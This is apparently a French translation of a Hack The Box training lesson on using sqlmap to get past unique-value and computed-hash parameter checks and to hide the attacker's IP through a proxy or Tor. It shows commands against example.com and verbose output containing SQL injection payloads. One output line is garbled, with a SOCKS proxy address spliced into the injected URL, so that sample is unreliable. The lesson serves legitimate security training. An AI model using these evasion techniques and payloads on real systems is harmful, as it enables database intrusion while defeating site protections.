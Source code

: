Contournement de valeur unique
------------------------------

Dans certains cas, l'application Web peut exiger uniquement que des valeurs uniques soient fournies dans des paramètres prédéfinis. Un tel mécanisme est similaire à la technique anti-CSRF décrite ci-dessus, sauf qu'il n'est pas nécessaire d'analyser le contenu de la page Web. Ainsi, en s'assurant simplement que chaque requête a une valeur unique pour un paramètre prédéfini, l'application Web peut facilement empêcher les tentatives CSRF tout en évitant certains outils d'automatisation. `--randomize`Pour cela, il faut utiliser l'option , pointant vers le nom du paramètre contenant une valeur qui doit être randomisée avant d'être envoyée :

```
dsgsec@htb[/htb]$ sqlmap -u "http://www.example.com/?id=1&rp=29125" --randomize=rp --batch -v 5 | grep URI

URI: http://www.example.com:80/?id=1&rp=99954
URI: http://www.example.com:80/?id=1&rp=87216
URI: http://www.example.com:80/?id=9030&rp=36456
URI: http://www.example.com:80/?id=1.%2C%29%29%27.%28%28%2C%22&rp=16689
URI: http://www.example.com:80/?id=1%27xaFUVK%3C%27%22%3EHKtQrg&rp=40049
URI: http://www.example.com:80/?id=1%29%20AND%209368%3D6381%20AND%20%287422%3D7422&rp=95185

```

* * * * *

Contournement des paramètres calculés
-------------------------------------

Un autre mécanisme similaire est celui où une application Web s'attend à ce qu'une valeur de paramètre appropriée soit calculée en fonction d'une ou plusieurs autres valeurs de paramètre. Le plus souvent, une valeur de paramètre doit contenir le résumé du message (par exemple `h=MD5(id)`) d'une autre. Pour contourner cela, il convient d'utiliser l'option `--eval`où un code Python valide est évalué juste avant que la requête ne soit envoyée à la cible :

```
dsgsec@htb[/htb]$ sqlmap -u "http://www.example.com/?id=1&h=c4ca4238a0b923820dcc509a6f75849b" --eval="import hashlib; h=hashlib.md5(id).hexdigest()" --batch -v 5 | grep URI

URI: http://www.example.com:80/?id=1&h=c4ca4238a0b923820dcc509a6f75849b
URI: http://www.example.com:80/?id=1&h=c4ca4238a0b923820dcc509a6f75849b
URI: http://www.example.com:80/?id=9061&h=4d7e0d72898ae7ea3593eb5ebf20c744
URI: http://www.example.com:80/?id=1%2C.%2C%27%22.%2C%28.%29&h=620460a56536e2d32fb2f4842ad5a08d
URI: http://www.example.com:80/?id=1%27MyipGP%3C%27%22%3EibjjSu&h=db7c815825b14d67aaa32da09b8b2d42
URI: http://www.example.com:80/?id=1%29%20AND%209978%socks4://177.39.187.70:33283ssocks4://177.39.187.70:332833D1232%20AND%20%284955%3D4955&h=02312acd4ebe69e2528382dfff7fc5cc

```

* * * * *

Dissimulation d'adresse IP
--------------------------

Dans le cas où nous souhaitons cacher notre adresse IP, ou si une certaine application Web dispose d'un mécanisme de protection qui met sur liste noire notre adresse IP actuelle, nous pouvons essayer d'utiliser un proxy ou le réseau d'anonymat Tor. Un proxy peut être défini avec l'option `--proxy`(par exemple `--proxy="socks4://177.39.187.70:33283"`), où nous devons ajouter un proxy fonctionnel.
